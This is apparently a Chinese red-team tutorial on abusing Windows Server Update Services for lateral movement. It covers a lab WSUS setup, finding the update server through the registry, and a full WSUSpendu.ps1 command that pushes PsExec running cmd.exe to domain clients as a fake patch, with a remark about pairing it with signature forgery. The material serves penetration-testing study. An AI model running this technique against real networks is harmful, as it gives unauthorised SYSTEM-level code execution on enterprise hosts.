### WSUS

#### 0x01 前置

WSUS（Windows Server Update Services），是微软公司开发的一个计算机程序，它允许管理员管理已为微软产品发布的更新和热修复补丁分发到企业环境中的计算机。管理员只需要在wsus上选择哪些补丁需要更新，就能通过**HTTP**/HTTPS协议快速地将各种补丁部署到内网中的其他服务器中去，这样即使是由于种种原因不能暴露在英特网中的内网主机也能通过WSUS及时下载安装补丁。如果已有域更新服务器的权限，可以用过下发更新来横向移动到指定目标。以下演示本地环境搭建

#### 0x02 服务端配置WSUS

安装wsus服务



一路默认。安装完成后需要简单配置。

配置更新语言



配置需要更新的产品



时间原因，这里我不同步微软更新服务



接着根据需求配置域组策略，设置域的自动更新策略

设置更新时间



设置更新服务器为wsus 服务端



为域内主机更新组策略

`Import-Module GroupPolicy -verbose`

`Invoke-GPUpdate -RandomDelayInMinutes 0 -Computer computer`

组策略更新后我们可以在目标机器注册表`HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate`上看到相应的服务器设置



所以，在内网中可以据此定位到更新服务器。

组策略更新后，可以在wsus上看到客户端



（可能需要在客户端上执行`usoclient ReportNow`向wsus报告之后才能看到，但是不影响补丁下发）

在客户端上能成功访问http://wsus:8530/ClientWebService/client.asmx，表明环境没问题。

遇到客户端错误0x8024401c，参照http://woshub.com/windows-10-wsus-error-0x8024401c/解决。

#### 0x03 下发补丁

使用[WSUSpendu.ps1](https://github.com/AlsidOfficial/WSUSpendu)可以把我们要执行的文件(需要微软签名，可配合签名伪造漏洞)通过补丁的形式下发给客户端。以psexec.exe为例，执行

```
 .\WSUSpendu.ps1 -Inject -PayloadFile .\PsExec64.exe -PayloadArgs '-accepteula -s -d cmd.exe /c "ipconfig
> C:\\users\\public\\1.txt'
```

执行成功之后，在wsus可以看到相应的补丁。如果wsus没开启自动审批，需要我们手动审批该补丁



补丁名可以自己更改



到了设置更新时间，客户端会自动下载更新执行。



